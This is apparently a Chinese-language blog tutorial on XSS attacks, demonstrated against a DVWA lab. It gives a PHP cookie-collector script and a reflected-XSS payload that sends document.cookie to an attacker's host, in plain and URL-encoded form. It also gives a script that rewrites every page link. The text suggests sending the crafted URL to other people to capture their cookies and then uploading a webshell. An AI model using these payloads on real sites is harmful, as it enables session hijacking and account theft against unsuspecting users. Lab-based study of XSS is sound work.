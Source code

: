 ```yaml
---
title: XSS 漏洞的攻击手法
comments: true
toc: true
tags:
    - XSS
description: 介绍 XSS 可以实现的攻击其中包括：Cookie 劫持与篡改网页链接等
summary: 介绍 XSS 可以实现的攻击其中包括：Cookie 劫持与篡改网页链接等
categies:
    - websec
    - xss
date: 2019-08-15 17:45:11
---
```


# Cookie 劫持

## 原理

首先，我们有个服务器，当然，这里我在自己电脑上用 php study 搭建一个服务器

其次，我们需要有个脚本来获取用户的 cookie，写入到我们电脑上。

下面我们写一个脚本：cookie.php

```php
<?php
if(isset($_GET['cookie']))
{
	$cookie=$_GET['cookie'];
	file_put_contents('cookie.txt',$cookie);
}
?>
```

将其放到 PHP Study 的 WWW 目录下的 xss_test 目录下。

然后，我们通过浏览器对象中的 Location 对象来改变当前的 URL，将当前 cookie 提交到我们指定的 URL 的脚本文件，这样我们可以在脚本文件中将 cookie 保留下来。

注：

**Document.location** 是一个只读属性，返回一个 [`Location`](https://developer.mozilla.org/zh-CN/docs/Web/API/Location) 对象，包含有文档的 URL 相关的信息，并提供了改变该 URL 和加载其他 URL 的方法。

## 测试

下面我访问虚拟机的 dvwa 的反射 XSS，并使用 hackbar 将构造的下列 paylaod 进行 URL 编码（注：GET 方式的 payload 不能直接写到地址栏，要经过 URL 编码）

```php
<script>document.location='http://你的主机ip/xss_test/cookie.php?cookie='+document.cookie</script>
```

其中，“你的主机 ip” 写你主机的 ip，这样

```php
http://192.168.107.156/dvwa-master/vulnerabilities/xss_r/?name=%3Cscript%3Edocument.location%3D'http%3A%2F%2F113.54.198.24%2Fxss_test%2Fcookie.php%3Fcookie%3D'%2Bdocument.cookie%3C%2Fscript%3E
```

然后，我们就可以发给别人，先让他们登录对应网站，然后诱使其点击该 URL，这样我们就可以获取其 cookie 了。

注意：高版本的 phpstudy（没准是 php 版本 或 apache 版本高？）默认增加 usertoken，测试会不正常。

这样我们使用通过修改浏览器 cookie 或使用 burp 截获并修改 cookie 来实现会话劫持。

劫持会话后的操作

1. 查看信息，修改配置
2. 寻找其他漏洞点，比如：寻找文件上传漏洞，上传一句话。

# 篡改网页链接

## 原理

window.onload 当窗口加载时，执行匿名函数

使用 for 循环遍历所有获得的链接的 a 标签

```php+HTML
<script>
window.onload = function()
{
	var links=document.getElementsByTagName("a");
	for(var i =0; i < links.length;i++)
		links.href="www.baidu.com";
}
</script>
```

## 测试

将篡改代码注入到对应的 XSS 位置，以 DVWA 反射型 XSS 为例，我们在输入框中输入上面的代码，然后使用检查元素方式，便可以查看修改后的链接。

```php
http://192.168.107.156/dvwa-master/vulnerabilities/xss_r/?name=%3Cscript%3E%0Awindow.onload%20%3D%20function()%0A%7B%0A%09var%20links%3Ddocument.getElementsByTagName(%22a%22)%3B%0A%09for(var%20i%20%3D%200%3B%20i%20%3C%20links.length%3Bi%2B%2B)%0A%09%09links%5Bi%5D.href%3D%22https%3A%2F%2Fwww.baidu.com%22%3B%0A%7D%0A%3C%2Fscript%3E
```

注入后，网页链接变都会改变为你重定向的网页连接，这样就达到了篡改网页链接的目的，当然，反射型只是一时的，存储型 XSS 对篡改网页链接持久有效。

未完待续...
